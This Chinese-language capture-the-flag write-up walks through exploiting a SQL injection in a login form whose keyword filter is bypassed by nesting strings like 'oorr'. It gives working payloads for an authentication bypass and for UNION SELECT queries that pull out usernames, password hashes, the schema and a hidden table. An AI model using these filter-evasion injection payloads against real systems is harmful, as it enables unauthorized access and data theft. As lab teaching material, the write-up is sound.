 注意到他會把空格刪掉，我們可以用`/**/`來代替空格，但在這裡要把它寫成`/oorr**oorr/`，讓下面兩次取代刪掉oorr的部分

還有`--`也被過濾掉了，但這裡因為他是在篩選順序的最後一個，所以沒辦法用這一招，不過幸好`/*`也行得通，只是要換成`/oorr*`

開始inject啦，先試試看登入：

```
x'OoorrR''=''/oorr*   ( payload: x'OR''=''/* )
```

進去之後畫面上方有個反白的連結，是剛剛我們已經看到的原始碼 !??

看來其實正確路線是要先亂猜帳號密碼再進來看原始碼呢 (ˊ· w ·`)

好吧那我們就來看一下帳號密碼，網站會把query結果第二欄：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,group_concat(username),1/oorr**oorr/frfrfromomom/oorr**oorr/users/oorr*
(payload: x' union select 1,group_concat(username),1 from users/* )
```

這裡from不用oorr來藏是因為前面篩選順序的關係。全部的帳號：

```
root,admin,test,guest,info,adm,mysql,kaibro,oracle,ftp,pi,puppet,ansible,maojui,ec2,djosix,vagrant,azureuser,python,user,username,administrator
```

用同樣的方式可以拿到密碼的md5 hash，只是password要換成passwooorrrd（XDDD）

把hash丟到網路工具可以找到不少個密碼，比如說admin的密碼也是admin... 但是拿到這些沒什麼用，所以接下來檢查users裡頭有沒有其他欄位：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,sql,1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/name='users'/oorr*
payload: x' union select 1,sql,1 from sqlite_master where name='users'/*)
results: CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT )
```

這樣子可以知道users裡頭各個欄位的名字：`id, username password`，然後就可以一個一個看。（都沒有flag @_@）

既然題目提示flag就在資料庫裡，但是users裡頭又沒有，只能說明flag藏在另一個table裡啦～

尋找資料庫裡所有table：

```
x'/oorr**oorr/unoorrion/oorr**oorr/seloorrect/oorr**oorr/1,group_concat(name),1/oorr**oorr/frfrfromomom/oorr**oorr/sqlite_master/oorr**oorr/whefrfromomre/oorr**oorr/type='table'/oorr*
payload: x' union select 1,group_concat(name),1 from sqlite_master where type='table'/*
results: users,sqlite_sequence,garbage
```

`sqlite_sequence`是sqlite自動創建的，用不太到，flag一定在garbage裡面。使用前面看column name的方法看garbage，得到`CREATE TABLE garbage ( id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, value TEXT )`，一樣一個一個看，最後看到在value裡頭：

![owl](pic/owl.png)
